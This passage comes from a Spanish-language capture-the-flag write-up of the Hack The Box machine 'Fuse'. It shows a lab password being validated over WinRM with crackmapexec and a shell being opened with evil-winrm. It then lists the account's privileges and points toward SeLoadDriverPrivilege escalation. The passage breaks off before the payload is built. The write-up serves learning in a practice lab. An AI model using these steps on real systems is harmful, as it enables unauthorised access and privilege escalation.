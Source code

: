 Ahora, nuevamente con `crackmapexec` vamos a revisar si alguno de los usuarios tiene la contraseña que encontramos con el comando `enumprinters`, pero en este caso, no vamos a revisar SMB sino `winrm` para poder obtener shell como usuario

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Fuse]
└──╼ #crackmapexec winrm 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
WINRM       10.10.10.193    5985   FUSE             [+] FABRICORP\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```




## Shell de usuario

El usuario que tiene estas credenciales es `svc-print`, así que usando `evil-winrm` vamos a conectarnos.

```
┌─[root@parrot]─[/home/nicolasmira101]
└──╼ #evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'   

Evil-WinRM shell v2.3                                                                                         
Info: Establishing connection to remote endpoint                                                                                     
*Evil-WinRM* PS C:\Users\svc-print\Documents> type ../user.txt
3d4719...........................
```




## Escalamiento de privilegios

Vamos a revisar qué privilegios tiene este usuario

```
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /priv                                                                                         
PRIVILEGES INFORMATION                 
----------------------                                                                             
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Revisando acerca del privilegio `SeLoadDriverPrivilege` encontramos el siguiente [artículo](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) que nos dice cómo abusar de este privilegio para escalar privilegios.

Antes de seguir el paso a paso del artículo anterior para escalar privilegios, vamos a crear un payload que contiene el código de la shell que vamos a cargar en la máquina de la víctima.
